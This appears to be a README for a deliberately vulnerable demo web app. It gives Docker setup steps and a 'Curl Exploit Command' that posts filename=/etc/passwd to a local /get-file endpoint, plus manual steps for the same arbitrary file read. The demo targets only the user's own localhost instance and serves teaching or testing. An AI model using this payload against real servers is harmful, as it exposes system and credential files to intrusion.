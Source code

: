 ## Setup 
1. git clone https://github.com/wbowm15/ubiquitous-eureka.git
2. cd ubiquitous-eureka
3. docker build -t server . 
4. docker run -p5000:5000 server

## Curl Exploit Command 
curl 'http://127.0.0.1:5000/get-file' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://127.0.0.1:5000' \
  -H 'Referer: http://127.0.0.1:5000/' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Google Chrome";v="125", "Chromium";v="125", "Not.A/Brand";v="24"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "Windows"' \
  --data-raw 'filename=%2Fetc%2Fpasswd'

  ## Manual Exploit Steps 
  1. Enter /etc/passwd or another file in the "Enter a filename to fetch:" form and hit query
